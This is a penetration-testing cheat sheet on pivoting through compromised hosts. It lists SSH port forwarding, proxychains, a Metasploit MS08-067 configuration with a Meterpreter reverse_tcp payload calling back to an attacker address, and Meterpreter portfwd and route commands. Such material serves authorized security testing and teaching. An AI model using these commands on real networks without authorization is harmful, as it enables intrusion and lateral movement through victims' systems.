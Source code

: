 

# Pivoting on a Penetration Test

## What is pivoting ?

Pivoting allows a security consultant to use a host compromised when [pen testing](https://www.aptive.co.uk/penetration-testing/) to route traffic to access hosts on the subnet or other subnets. Once a foot hold is established on a target network typically from successfully exploiting a target on an external penetration test or from a successful phishing / spear phishing campaign, pivoting allows a tester to move through the network compromising more hosts that were not exposed originally.

This article focuses specifically on pivoting from compromised Linux hosts using SSH and meterpreter pivoting. 

<div>
<table>
  <thead>
    <tr>
      <th>Command</th>
      <th>Description</th>
    </tr>
  </thead>
      <tbody>
      <tr>
      <td>
        <p><code>ssh -L 9999:10.0.2.2:445 user@192.168.2.250</code></p>
      </td>
      <td>
            <p>SSH port forwarding, port 9999 locally is forwarded to port 445 on 10.0.2.2 through host 192.168.2.250</p>
      </td>
    </tr>
      <tr>
      <td>
        <p><code>ssh -D 127.0.0.1:9050 root@192.168.2.250</code></p>
      </td>
      <td>
            <p>Proxychains Forwarding - Dynamically allows all port forwards to the subnets availble on the target.</p>
      </td>
    </tr>
      </tbody>
</table>
</div>

## Note on Proxychain port forwards 

Dynamic SSH Proxychain forwarding oes not work with meterpreter shells. 

If you attempt to spawn a shell via Meterpreter, you'll get an error similar to the following:


```bash 
meterpreter > execute -f cmd.exe -i -H
|S-chain|-<>-127.0.0.1:9050-<><>-127.0.0.1:41713-<--timeout
``` 

## How to use Proxychain port forwards 

All commands must be prefixed with <code>proxychains</code> in order to route traffic correctly. 

### Example connecting to RDP over Proxychains 

```bash 
proxychains rdesktop TARGET-ADDRESS 
``` 

## Metasploit SSH Pivoting Example 

The following example uses the Metasploit module for **MS08_067** assumes you have setup the SSH port forward using the instructions above and port: <code>9999</code> is forwarded to 445. 

**Attacking Machine:** 192.168.3.99 

```bash
msf exploit(ms08_067_netapi) > show options

 Module options (exploit/windows/smb/ms08_067_netapi):

    Name     Current Setting  Required  Description
    ----     ---------------  --------  -----------
    RHOST    0.0.0.0          yes       The target address
    RPORT    9999             yes       Set the SMB service port
    SMBPIPE  BROWSER          yes       The pipe name to use (BROWSER, SRVSVC)


 Payload options (windows/meterpreter/reverse_tcp):

    Name      Current Setting  Required  Description
    ----      ---------------  --------  -----------
    EXITFUNC  thread           yes       Exit technique (accepted: seh, thread, process, none)
    LHOST     192.168.3.99     yes       The listen address
    LPORT     443              yes       The listen port

 Exploit target:

    Id  Name
    --  ----
   0   Automatic Targeting
``` 

## Meterpreter Pivoting Cheat Sheet 

If you have compromised a host during a penetration test it's possible to use the meterpreter shell to pivot to other hosts on the network. Using meterpreter it's possible to pivot from compromised Windows and Linux targets, however it's typically far less reliable than SSH port forwarding as Meterpreter sessions can time out killing the connection. 

<table>
  <thead>
    <tr>
      <th>Command</th>
      <th>Description</th>
    </tr>
  </thead>
      <tbody>
      <tr>
      <td>
        <p><code>portfwd add –l 3389 –p 3389 –r target-host</code></p>
      </td>
      <td>
            <p>Forwards 3389 (RDP) to 3389 on the compromised machine running the Meterpreter shell</p>
      </td>
    </tr>

    <tr>
      <td>
        <p><code>portfwd delete  –l 3389 –p 3389 –r target-host</code></p>
      </td>
      <td>
            <p>Forwards 3389 (RDP) to 3389 on the compromised machine running the Meterpreter shell</p>
      </td>
    </tr>

    <tr>
      <td>
        <p><code>portfwd flush</code></p>
      </td>
      <td>
            <p>Delete all port forwards</p>
      </td>
    </tr>


    <tr>
      <td>
        <p><code>portfwd list</code></p>
      </td>
      <td>
            <p>List active port forwards</p>
      </td>
    </tr>


    <tr>
      <td>
        <p><code>run autoroute -s 192.168.15.0/24</code></p>
      </td>
      <td>
            <p>Autoroute script to add the route for specified subnet <code>192.168.15.0</code></p>
      </td>
    </tr>

    <tr>
      <td>
        <p><code>run autoroute -p</code></p>
      </td>
      <td>
            <p>List all active routes</p>
      </td>
    </tr>

    <tr>
      <td>
        <p><code>route</code></p>
      </td>
      <td>
            <p>View available networks the compromised host can access</p>
      </td>
    </tr>

    <tr>
      <td>
        <p><code>route add 192.168.14.0 255.255.255.0 3</code></p>
      </td>
      <td>
            <p>Add route for 192.168.14.0/24 via Session 3.</p>
      </td>
    </tr>

    <tr>
      <td>
        <p><code>route delete 192.168.14.0 255.255.255.0 3</code></p>
      </td>
      <td>
            <p>Delete route for 192.168.14.0/24 via Session 3.</p>
      </td>
    </tr>


    <tr>
      <td>
        <p><code>route flush</code></p>
      </td>
      <td>
            <p>Delete all Meterpreter routes</p>
      </td>
    </tr>

      </tbody>
</table>

 
## How to Connect to targets using Meterpreter Port Forwards 

The port is forwarded locally to the target. Using RDP as an example, assuming you have setup a meterpreter port forward using the same port for local and remote. You would connect to it using: 

```bash 
rdesktop 127.0.0.1
```

Enjoy.  
